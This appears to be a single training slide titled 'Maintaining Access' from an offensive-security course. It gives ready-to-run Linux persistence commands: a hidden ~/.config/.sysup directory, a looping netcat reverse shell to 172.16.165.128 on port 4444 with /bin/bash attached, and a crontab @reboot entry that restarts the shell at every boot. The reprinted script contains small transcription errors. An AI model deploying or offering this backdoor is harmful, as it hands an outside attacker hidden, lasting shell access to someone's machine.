

MAINTAINING ACCESS
mkdir -p ~/.config/.sysup
->  Creates the directory ~/.config/.sysup
echo -e '#!/bin/bash\nwhile true; do\n nc 172.16.165.128 4444 -e /bin/bash && break\n sleep 10\ndone &>/dev/null &' > ~/.config/.sysup/.sysup.sh
The script:
#!/bin/bash
while true; do
nc <attacker-ip> -e /bin/bash && break
sleep 10
done &./dev/null &
The Scheduled task:
(crontab -l 2>/dev/null; echo "@reboot /bin/bash ~/.config/.sysup/.sysup.sh &") | crontab -